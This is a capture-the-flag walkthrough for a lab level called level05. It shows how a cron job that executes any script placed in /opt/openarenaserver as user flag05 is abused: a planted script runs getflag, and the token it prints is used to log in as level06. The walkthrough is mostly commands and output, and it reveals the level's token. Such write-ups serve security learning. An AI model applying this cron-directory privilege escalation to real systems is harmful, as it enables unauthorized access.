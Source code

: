 ## When we are log as level05 we receive a new mail in mail folder called level05

ls /var/mail
-> level05

cat /var/mail/level05
-> */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

## This cron runs a script every 2 minutes

cat /usr/sbin/openarenaserver
```
	#!/bin/sh

	for i in /opt/openarenaserver/* ; do
			(ulimit -t 5; bash -x "$i")
			rm -f "$i"
	done
```

## the previous script executes any script inside /opt/openarenaserver/ as the user flag05, we will create a script where we execute getflag

echo "/bin/getflag > /tmp/get_my_flag" > /opt/openarenaserver/get_my_flag

cat /opt/openarenaserver/get_my_flag
-> /bin/getflag > /tmp/get_my_flag

## wait 2 minutes max and we have the password
cat /tmp/get_my_flag
-> Check flag.Here is your token : viuaaale9huek52boumoomioc

## Log in to user level06
su level06 (password: viuaaale9huek52boumoomioc)
